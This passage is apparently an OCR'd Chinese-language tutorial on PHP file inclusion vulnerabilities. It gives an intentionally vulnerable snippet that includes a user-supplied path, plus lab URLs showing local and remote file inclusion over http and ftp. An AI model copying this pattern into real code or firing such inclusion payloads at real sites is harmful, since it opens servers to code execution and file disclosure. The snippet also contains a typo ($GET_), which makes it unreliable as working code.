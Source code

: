 ### 文件包含示例

我们可以通过以下简单代码来测试文件包含漏洞

> \-----------
>
> <?php
>
> $path=$GET_['path'];
>
> include_once("./inc.php");
>
> echo "<h1>This is inlcude_once.php!</h1>";
>
> include_once $path;
>
> ?>
>
> \----------

### *本地文件包含（LFI）

本地文件包含就是我们通过相对路径的方式找到文件，然后包含

url

[http://localhost/include/include_once.php?path=info.php]

 

### *远程文件包含（RFI）

远程文件包含就是我们可以通过http(s)或者ftp 等方式，远程加载文件

url

[http://localhost/include/include_once.php?path=http://192.168.1.200/include/info.php]

[http://localhost/include/include_once.php?path=ftp://admin:123.com@192.168.1.2/info.php]

 

## 漏洞原理及特点

PHP 文件包含是程序设计的基础功能之一，能够减少代码量，提高开发效率。但是使用文件包含功能是，有类似以上测试代码的设计，实现动态包含，就会有文件包含漏洞的风险。如果实现动态包含的参数，Web 应用没有进行严格的净化，客户端可以影响或控制文件包含的路径，就会产生文件包含漏洞。

 

### *特点

PHP 提供的文件包含功能非常强大，有以下特点

@ 无视文件扩展名读取文件

包含文件时，PHP 会读取文件的源码，包括图片文件。尝试包含图片

[http://localhost/include/include_once.php?path=simle.jpg]
